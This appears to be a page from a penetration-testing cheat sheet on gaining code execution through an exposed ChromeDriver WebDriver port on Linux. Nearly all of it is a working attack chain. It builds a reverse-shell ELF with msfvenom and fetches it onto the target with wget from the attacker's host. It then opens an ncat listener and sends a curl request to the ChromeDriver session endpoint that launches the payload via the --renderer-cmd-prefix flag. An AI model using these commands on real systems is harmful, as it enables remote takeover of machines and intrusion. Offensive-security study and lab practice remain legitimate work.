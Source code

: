 ```yaml
---
title: "WebDriver"
date: 2025-8-1
tags: ["WebDriver", "ChromeDriver", "Privilege Escalation", "Chrome", "Selenium", "API"]
---
```


{{< tab set1 tab1 >}}Linux{{< /tab >}}
{{< tabcontent set1 tab1 >}}

### Privesc #1: RCE

#### 1. Create a Payload

```console
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f elf > rev 
```

```console {class="sample-code"}
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.0.1 LPORT=1337 -f elf > rev    
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

#### 2. Upload to Target

```console
wget http://<LOCAL_IP>/rev -o /tmp/rev
```

```console
# Chmod
chmod 755 /tmp/rev
```

#### 3. Start a Listener

```console
rlwrap ncat -lvnp <LOCAL_PORT>
```

#### 3. Create a Sesson with Command

```console
curl -d '{
    "capabilities": {
        "alwaysMatch": {
            "browserName": "chrome",
            "goog:chromeOptions": {
                "args": ["--headless", "--no-sandbox", "--disable-dev-shm-usage", "--renderer-cmd-prefix=/tmp/rev"],
                "prefs": {
                }
            }
        }
    }
}' http://<TARGET>:9515/session
```

{{< /tabcontent >}}